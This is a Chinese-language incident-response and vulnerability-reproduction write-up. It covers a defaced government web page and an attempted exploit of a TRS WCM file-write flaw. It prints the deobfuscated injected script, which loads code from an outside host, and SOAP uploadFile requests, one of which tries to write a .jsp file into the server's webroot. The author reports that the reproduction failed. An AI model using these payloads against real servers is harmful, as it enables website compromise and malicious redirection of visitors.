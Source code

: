 # TRS WCM 系统任意文件写入漏洞~~尝试复现~~
### 0x00
接到某政府部网页被挂马的信息，对被挂网页进行查看，在源码中发现
![](./img/1.png)
明显的js混淆，反混淆后得到(里面的x??就是ASCII,转换过来就好)
```javascript
window["document"]["write"]("<script type='text/javascript' src='http://www.138609.net/jsh.js'></script>");
```
跟进www.138609.net/jsh.js 得到js跳转(这里就不贴了)
最终跳转到<font color='red'>`https://www.yabc88.com/`</font>这个菠菜网站</br>
~~我们搞一下这个菠菜网站~~
### 0x01
挂马情况已经摸清了，现在尝试溯源，先找运维人员要来了服务器的流量</br>经过审计没有发现攻击流量(后来得知拿到的是前台流量，猜测黑客从后台进行修改网页)
我们去找网站的后端</br>
一般后端只需要找交互的地方，比如登录，可以找到后端控制的地方
![](./img/2.png)
成功找到后台,指纹识别为Tomcat Apache</br>
![](./img/3.png)<br>
通过Google<font color="red">`wcm`</font>找到了<font color="red">`/wcm/console/include/running_background.html`</font>路径
得到了版本信息
![](./img/4.png)<br>
找到一些有关利用漏洞，比如TRS WCM 系统任意文件写入漏洞
### 0x02 exploit
在<font color="red">`wcm/services/trswcm:SOAPService?wsdl`</font>和<font color="red">`wcm/services/trs:templateservicefacade?wsdl`</font>中裸露出来两个接口<br/>
通过访问<font color="red">`wcm/services`</font>得知，需要使用SOAPUI这个客户端才能进行交互
![](./img/5.png)
安装好SOAPUI之后<font color="red">`File`</font>-\><font color="red">`New SOAP Project`</font>，上面的输入框随意输入，下面的输入框我们要输入裸露的接口
![](./img/6.png)<br>
将接口成功连接上之后发现<font color="red">`uploadFile`</font>和<font color="red">`sendFileBase64`</font>这两个接口或许可以利用</br>
这里要注意的是，原本利用的接口是<font color="red">`writeFile`</font>和<font color="red">`writeSpecFile`</font>，但是之前维护的时候已经把这两个删掉了
![](./img/7.png)<br>
尝试上传文件，发出请求
```xml
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:impl="http://impl.service.trs.com">
   <soapenv:Header/>
   <soapenv:Body>
      <impl:uploadFile soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <in0 xsi:type="soapenc:base64Binary" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">MTEx</in0>
         <in1 xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">jsp</in1>
         <in2 xsi:type="xsd:boolean">0</in2>
      </impl:uploadFile>
   </soapenv:Body>
</soapenv:Envelope>
```
得到如下回应，发现成功上传，并得到了物理路径，并不在web路径
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <soapenv:Body>
      <ns1:uploadFileResponse soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:ns1="http://impl.service.trs.com">
         <uploadFileReturn xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/"><![CDATA[<REPORTS><IS-SUCCESS>true</IS-SUCCESS><TITLE><![CDATA[上传文件]]]]>><![CDATA[</TITLE><REPORT><IS-SUCCESS>true</IS-SUCCESS><TITLE><![CDATA[U020190710557616464509.jsp:D:\TRS\TRSZMHD\WCMData\upload\U0201907\U020190710\U020190710557616464509.jsp]]]]>><![CDATA[</TITLE><TYPE>3</TYPE></REPORT></REPORTS>]]></uploadFileReturn>
      </ns1:uploadFileResponse>
   </soapenv:Body>
</soapenv:Envelope>
```
尝试写入web目录中
```xml
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:impl="http://impl.service.trs.com">
   <soapenv:Header/>
   <soapenv:Body>
      <impl:uploadFile soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <in0 xsi:type="soapenc:base64Binary" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">MTEx</in0>
         <in1 xsi:type="soapenc:string" xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/">D:\\Tomcat\\webapps\\wcm\\demo\\index.jsp</in1>
         <in2 xsi:type="xsd:boolean">1</in2>
      </impl:uploadFile>
   </soapenv:Body>
</soapenv:Envelope>
```
这次是报错信息<font color="red">`不是常规后缀信息，不能获取相应的文件名`</font>，尝试修改，发现只有<font color="red">`[.???|???]`</font>可以使用，一旦使用<font color="red">`/`</font>和<font color="red">`\`</font>进行跳跃就不可以，原因在于Server会将<font color="red">`D:\TRS\TRSZMHD\WCMData\upload\U0201907\U020190710\U020190710557616464509.`</font>与我们填写的后缀进行拼接，一旦切换目录就会出现<font color="red">`D:\TRS\TRSZMHD\WCMData\upload\U0201907\U020190710\U020190710557616464509.\xxx`</font>这种路径，从而报错，不能达到任意目录写的操作</br>
复现失败
